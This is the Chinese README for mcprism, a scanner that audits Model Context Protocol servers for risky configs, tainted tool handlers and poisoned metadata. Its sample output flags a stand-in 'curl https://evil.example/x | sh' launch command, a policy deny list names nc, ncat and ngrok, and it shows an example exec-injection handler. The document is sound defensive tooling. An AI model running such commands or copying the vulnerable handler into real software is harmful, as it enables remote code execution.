

<div align="center">

<p><a href="README.md">English</a> · 简体中文 · <a href="README.ja-JP.md">日本語</a> · <a href="README.ko-KR.md">한국어</a> · <a href="README.fr-FR.md">Français</a> · <a href="README.de-DE.md">Deutsch</a> · <a href="README.es-ES.md">Español</a> · <a href="README.ru-RU.md">Русский</a> · <a href="README.ar-SA.md">العربية</a></p>


# mcprism

**在你的 AI 信任 MCP server 之前，先审一遍。**

mcprism 是 [Model Context Protocol](https://modelcontextprotocol.io/) server 的安全扫描器。它从三个角度审查一个 server：

1. **配置**：客户端如何启动或连接它——版本是否固定、是否明文传输、配置里有没有凭据、是否指向云元数据或内网。
2. **源码**：当实现代码就在本地时，读取 JS/TS/Python 的工具 handler，追踪 agent 可控的参数是否流入危险 sink：执行命令、发起请求（SSRF）、拼接文件路径，以及 eval、不安全反序列化和硬编码密钥。
3. **运行时**：完成 MCP 握手，列出 tools、resources、prompts，并检查工具元数据是否被投毒。它不会调用任何工具。

每个 server 都会得到一份发现清单、一个 0–100 的分数和一个 A–F 的评级。整个工具是一个 Go 二进制，没有运行时依赖，完全离线运行，也没有副作用。

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](LICENSE)

</div>

---

<p align="center">
  
</p>

<p align="center">
  
</p>

MCP 让 AI agent 连接外部 server 来获取工具、文件和数据。Claude Desktop 和 Claude Code、Cursor、VS Code、Windsurf 等客户端都内置了这个协议，所以一套环境装下来，往往会接上好几个 server。这些 server 会执行命令、读取文件系统、看到你的提示词。一个恶意或权限过大的 server 可以窃取凭据、执行命令，或者通过返回的文本诱导 agent。mcprism 在你让 agent 使用这些 server 之前，给出逐个 server 的报告和评分，就像用 `trivy` 扫镜像一样。

<p align="center">
  
</p>

## 两行快速上手

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

## 一行审查单个 server

不用写进任何配置，直接检查启动命令、URL、包名或本地代码：

```sh
mcprism vet -- npx -y some-mcp-server
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet ./path/to/server     # 审查整个源码目录
mcprism vet server.py            # 审查单个文件
```

`vet` 默认只做静态分析，不会运行目标。加 `--probe` 才会启动它并枚举 tools、resources 和 prompts。源码目录或文件会走下面的源码分析引擎，不需要联网。

<p align="center">
  
</p>

## 目录

- [更新日志](CHANGELOG.md)
- [攻击面分析](docs/MCP-ATTACK-SURFACE.md)
- [发布工具包](docs/LAUNCH-KIT.md)
- [功能](#功能)
- [适用场景](#适用场景)
- [报告](#报告)
- [安装](#安装)
- [快速开始](#快速开始)
- [示例输出](#示例输出)
- [策略即代码](#策略即代码)
- [源码分析（SAST）](#源码分析sast)
- [检测内容](#检测内容)
- [输出格式](#输出格式)
- [支持的客户端与传输](#支持的客户端与传输)
- [CI/CD](#cicd)
- [工作原理](#工作原理)
- [对比](#对比)
- [常见问题](#常见问题)
- [路线图](#路线图)
- [贡献](#贡献)

## 功能

- 单个二进制。不用装 Python 或 Node，不需要 LLM API key，也不用注册账号。
- 默认静态。它读取配置，在有本地代码时审查 JS/TS/Python/Go 源码；加 `--dynamic` 才完成 MCP 握手、列出 tools/resources/prompts，但不会调用任何工具。
- 看 schema。对于没有源码的在线 server，如果名为 command、url、path 之类的字符串参数接受任意值，会按命令执行、SSRF、路径风险报出；用 enum、const、pattern 约束过的参数不报。
- 策略即代码。开关规则、调整严重级、允许或拒绝包·命令·域名、要求网络隔离。内置 `default`、`strict`、`ci` 三套配置。
- 风险接受清单。可以带理由和到期时间抑制发现，也可以用 `--baseline` 接受整份旧报告，只让新问题卡住构建；被抑制项仍显示在报告里，过期后自动重新出现。
- 结果确定。34 条规则映射到 OWASP MCP01–MCP07。静态分析不联网；动态探测是可选的，会启动 server 进程，请在沙箱里运行。
- 面向人和机器的报告：table、JSON、Markdown、HTML、SARIF、JUnit XML、CycloneDX SBOM、CSV。
- 一次扫描多个目标：文件、目录（递归）、URL。

## 适用场景

- 你装了一些 MCP server，想在 agent 运行前知道它们能访问什么。跑 `mcprism scan`。
- 一个团队共用一组 server，想要一份有记录的统一基线。把 `policy.yml` 放进版本库，在生产机器上跑 `--profile strict`。
- 你在 CI 里审查变更。跑 `mcprism scan --profile ci`，出现 high 及以上问题就让构建失败，或者把 SARIF 发布到 code scanning。

## 报告

<p align="center">
  
</p>

跨多个 server 的批量审查（静态模式）：

<p align="center">
  
</p>

## 安装

```sh
# 一键安装脚本（Linux / macOS / Windows 的 Git Bash）
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# 用 Go 安装
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

也可以从 [releases](https://github.com/HUA503/mcprism/releases) 页面下载二进制（Linux/macOS/Windows，amd64 和 arm64）。Homebrew、Scoop、Nix 在计划中。

## 快速开始

```sh
# 自动发现 Claude Desktop、Claude Code、Cursor、VS Code 等客户端的配置
mcprism scan

# 扫描指定配置文件
mcprism scan ~/.claude.json

# 递归扫描一个目录
mcprism scan ./configs

# 扫描远程 server
mcprism scan https://mcp.example.com/v1

# 一次扫描多个目标
mcprism scan a.json b.json ./configs

# 默认静态：不启动进程、不发起连接
mcprism scan mcp.json

# 动态探测在线 server（会启动进程；请在沙箱里运行）
mcprism scan mcp.json --dynamic

# 套用配置或自定义策略
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# 接受已有问题，只对新问题报错（渐进式接入）
mcprism scan mcp.json -f json -o baseline.json
mcprism scan mcp.json --baseline baseline.json

# 交互式终端界面
mcprism scan -i

# 不写配置，直接审查启动命令 / URL / 包名
mcprism vet -- npx -y some-mcp-server
mcprism vet "uvx some-mcp-server"
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet --probe -- npx -y some-mcp-server   # 真正运行并列出 tools

# 参考信息
mcprism inspect mcp.json     # 列出 server 的 tools/resources/prompts
mcprism rules                # 列出内置规则
mcprism profiles             # 列出内置基线
```

### 参数

| 参数 | 说明 |
|---|---|
| `-f, --format` | `table`（默认）· `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | 把报告写入文件 |
| `-p, --policy` | 策略 YAML 文件路径 |
| `--profile` | 内置基线：`default` · `strict` · `ci` |
| `--suppressions` | 抑制清单 YAML 文件路径 |
| `--fail-on` | 出现 `critical` / `high` / `medium` / `low` 级别发现时以非零码退出 |
| `--timeout` | 单个 server 的握手超时（默认 `10s`） |
| `-i, --interactive` | 在 TUI 中浏览发现 |
| `--transport` | 对 URL 强制使用 `http`（Streamable HTTP）或 `sse`（旧版） |
| `--dynamic`（`scan`） | 动态探测在线 server：启动/连接并列出 tools/resources/prompts。会启动目标进程，可能执行代码或联网，请在沙箱里运行 |
| `--probe`（`vet`） | 真正启动/连接并枚举工具；会运行目标，建议在沙箱内进行 |

## 示例输出

以静态模式扫描两个本地 server：

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

HTML 和 SARIF 格式还会给出证据、修复建议和 OWASP 映射。

## 策略即代码

策略文件是一份带版本号的 YAML。它设置通过/失败条件，覆盖单条规则，列出允许和拒绝的包·命令·域名，还可以要求有文件或 shell 能力的 server 不能联网。

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

命中 deny 会报 `MCP700`；在隔离要求下，有文件/shell 能力且能联网的 server 会报 `MCP701`。参考 [`examples/policy.yml`](examples/policy.yml)、[`examples/suppressions.yml`](examples/suppressions.yml) 和[策略指南](docs/POLICIES.md)。合规门和机器可读输出见 [docs/COMPLIANCE.md](docs/COMPLIANCE.md)。

## 源码分析（SAST）

配置能说明一个 server 怎么启动，却说明不了 handler 会拿参数做什么。一个在配置里看起来没问题的 server，仍可能把工具参数直接交给 shell、当作请求 URL，或者用它拼出文件路径。这些漏洞在实现代码里，所以 mcprism 会读代码。

把 `vet` 指向一个代码目录或单个文件即可。不需要构建、不需要安装依赖、不需要联网：

```sh
mcprism vet ./mcp-server
mcprism vet ./mcp-server/src/tool.ts
```

它能识别常见的 SDK 和框架：

- JavaScript/TypeScript：`@modelcontextprotocol/sdk` 的 `McpServer`、底层的 `Server.setRequestHandler`，以及各类 `.tool(...)` 注册。
- Python：`FastMCP` 的 `@mcp.tool()` 装饰器和底层的 `call_tool` handler。
- Go：mcp-go 的 `server.AddTool` / `mcp.AddTool` 回调。

对每个工具，它把 handler 参数当作攻击者可控的数据，向 sink 追踪一层。发现会标明文件和行号、展示代码、给出修复方式：

| 规则 | sink | 默认级别 |
|---|---|---|
| MCP801 | 工具参数流入命令/进程 sink（`exec`、`spawn`、`os.system`、`subprocess shell=True`） | critical |
| MCP802 | 工具参数控制请求 URL（`fetch`、`requests`、`httpx`）——SSRF | high |
| MCP803 | 工具参数被当作文件路径，且没有限定范围 | high |
| MCP804 | 动态执行代码（`eval`、`Function`、`exec`） | high |
| MCP805 | 不安全反序列化（`pickle`、`marshal`、`yaml.load`） | high |
| MCP806 | 源码中硬编码凭据 | high |

为了压低误报，它能识别常见的安全写法，出现时就不报：

- 固定命令、参数以数组形式传入（`execFile(cmd, args)`、`subprocess.run([...])`），而不是 shell 字符串。
- 路径限定：`path.resolve(base, name)` 后用 `startsWith(base)` 校验，Python 里用 `realpath` + `startswith`。
- 固定的 URL 前缀而不是让 agent 选 host，以及 `yaml.safe_load` / `SafeLoader`。
- Go 里用参数全为常量、不经过 shell 的 `exec.Command`，固定 URL，以及用 `strings.HasPrefix` 校验的 `filepath.Join`。

下面这个 handler 会因为 agent 能控制命令而被标记 MCP801：

```js
server.tool("run", { command: z.string() }, async ({ command }) => {
  exec(command, (err, stdout) => callback(stdout));
});
```

修复版用白名单，且不经过 shell：

```js
const ALLOWED = { status: ["git", "status"], log: ["git", "log", "-5"] };
server.tool("git", { name: z.string() }, async ({ name }) => {
  const spec = ALLOWED[name];
  if (!spec) throw new Error("not allowed");
  const [cmd, ...args] = spec;
  return execFile(cmd, args);
});
```

引擎基于模式匹配加一层 taint 追踪，不使用第三方解析器，因此二进制保持小巧、自包含。它无法像完整数据流分析器那样覆盖所有情况，只针对大多数 MCP server 漏洞里那种从 handler 直接到 sink 的短路径。规则细节和更多示例见 [docs/SAST.md](docs/SAST.md)。

<p align="center">
  
</p>

## 检测内容

- 配置中的凭据。可识别的凭据格式（AWS、Google、GitHub、Slack、Stripe、GitLab、OpenAI、JWT 等）会按类型标出；看起来像生成密钥的高熵值会作为疑似密钥标出。占位符和 `${ENV_VAR}` 引用不会被标记。
- 明文传输和关闭 TLS（`http://`、`NODE_TLS_REJECT_UNAUTHORIZED=0`）。
- 权限过宽。文件系统 server 挂载到 `/` 或用户主目录；sandbox 或权限检查被关闭。
- 工具投毒。工具名称、描述和 schema 中的注入指令、零宽/双向 Unicode、隐藏 HTML/Markdown、编码块。resource 和 prompt 模板的元数据也会做同样检查。
- 自由格式 schema 参数。对于没有源码的在线 server，会按参数名把接受任意字符串的命令、URL（SSRF）、路径参数标为风险。
- 危险能力组合，比如 shell 加联网、读文件加联网、写文件加 shell。
- 网络目标。云元数据端点（`169.254.169.254`）和私有/回环地址段。
- 供应链风险：未固定版本的包、近似的仿冒包名、直接从远程 URL 运行代码。
- JS/TS/Python/Go handler 里的源码问题：工具参数流入命令、网络、文件 sink，eval/exec、不安全反序列化和硬编码密钥。见[源码分析（SAST）](#源码分析sast)。
- 策略违规：被拒绝的包·命令·域名，以及违反网络隔离。
- 跨 server 工具名冲突，以及分类后的连接失败（DNS / TLS / 拒绝连接 / 超时 / 命令不存在）。

完整规则和 OWASP 对照见 [docs/RULES.md](docs/RULES.md)。

## 输出格式

| 格式 | 典型用途 |
|---|---|
| `table` | 终端输出 |
| `json` | 自定义工具处理 |
| `sarif` | GitHub code scanning |
| `md` | Markdown 报告 / 工单 |
| `html` | 可分享的独立报告 |
| `junit` | Jenkins、GitLab、GitHub 测试报告 |
| `cyclonedx` | SBOM / 漏洞数据导入 |
| `csv` | 电子表格和 GRC 流程 |

## 支持的客户端与传输

mcprism 能读取 Claude Desktop、Claude Code、Cursor、VS Code（GitHub Copilot Chat）、Windsurf、Cline、Continue 等工具使用的 JSON/JSONC MCP 配置，支持 `mcpServers` 对象和数组两种形式。它支持全部三种 MCP 传输：stdio、Streamable HTTP，以及旧版 HTTP+SSE。

## CI/CD

用 `ci` 基线在流水线里拦截有风险的 server：

```yaml
- name: 审计 MCP server
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --profile ci
```

通过 SARIF 把结果发布到 GitHub code scanning：

```yaml
- name: 扫描并上传
  run: mcprism scan mcp.json -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

JUnit 输出可以直接用 Jenkins 和 GitLab 的测试报告步骤，CycloneDX 输出可以交给 SBOM 或漏洞跟踪系统。

## 工作原理



mcprism 只枚举能力，因此分析没有副作用。自带的演示 server（`examples/testserver`）只模拟风险行为，不会真的执行。代码结构和数据流见 [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md)。

## 对比

依据各项目公开描述（功能可能变化）：

| | **mcprism** | mcp-scan | mcp-audit | 人工审查 |
|---|---|---|---|---|
| 语言 / 运行时 | Go，单二进制 | Python | Python/Node | — |
| 零安装 / 无运行时依赖 | ✅ | ❌ | ❌ | — |
| 静态配置检查 | ✅ | ✅ | 部分 | ❌ |
| 实时能力枚举 | ✅ | 部分 | 部分 | ❌ |
| 源码 SAST（handler 到 sink 的 taint） | ✅ | ❌ | ❌ | ❌ |
| 工具投毒检测 | ✅ | ✅ | 部分 | ❌ |
| 能力组合建模 | ✅ | ❌ | ❌ | ❌ |
| 策略即代码（allow/deny/隔离） | ✅ | ❌ | ❌ | ❌ |
| JUnit / CycloneDX / CSV 输出 | ✅ | ❌ | ❌ | ❌ |
| 递归、多目标扫描 | ✅ | 部分 | ❌ | ❌ |
| SARIF + CI 退出码 | ✅ | ✅ | ❌ | ❌ |
| 完全离线、不用 LLM | ✅ | ✅ | 部分 | ✅ |
| 跨平台 | ✅ | 部分 | 部分 | — |

## 常见问题

**mcprism 会调用我的工具吗？**
不会。它只做 MCP 的 initialize 和列出请求，不会调用工具、不会通过 server 打开文件、也不会发送提示词。

**它会把数据发到别处吗？**
不会。规则在本地运行，也没有任何遥测。静态分析不连接任何地方；动态扫描（`scan --dynamic` / `vet --probe`）会启动你指定的 server 并连接它，该进程可能执行代码或联网，请在沙箱里运行。

**它和 mcp-scan、mcp-audit 有什么区别？**
后两者基于 Python 或 Node，主要关注配置或投毒。mcprism 是 Go 单二进制，会对能力组合建模、执行策略即代码，除 SARIF 外还输出 JUnit、CycloneDX 和 CSV。详见[对比表](#对比)。

**某个发现在我的环境里是误报，怎么办？**
能修就修底层问题；否则可以在抑制清单里带理由和到期时间把它抑制掉。被抑制项仍然可见，到期后自动失效。见 [docs/POLICIES.md](docs/POLICIES.md)。

**报告干净就说明 server 安全吗？**
不是。mcprism 报告的是已知、可观测的风险，无法证明某个 server 一定安全，所以只运行你信任的 server。

## 路线图

- [ ] 随着 MCP 规范演进，增加规则、降低误报
- [ ] MCP registry / marketplace 扫描
- [ ] 策略覆盖之外的用户自定义规则
- [ ] pre-commit hook 和编辑器集成
- [ ] Homebrew、Scoop、Nix 包

## 贡献

欢迎提 issue 和 PR。好的规则贡献应该是信号明确、结果确定、误报率低的检查：在 `internal/rules` 下添加，映射到 OWASP MCP 风险，并附上测试。代码结构见 [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md)。提 PR 前请跑 `go vet ./... && go test ./...`。

## 许可证

[MIT](LICENSE) © mcprism contributors。

mcprism 是防御工具。它报告风险，但不能证明某个 server 一定安全；报告干净也不代表可以信任一个你并不了解的 server。
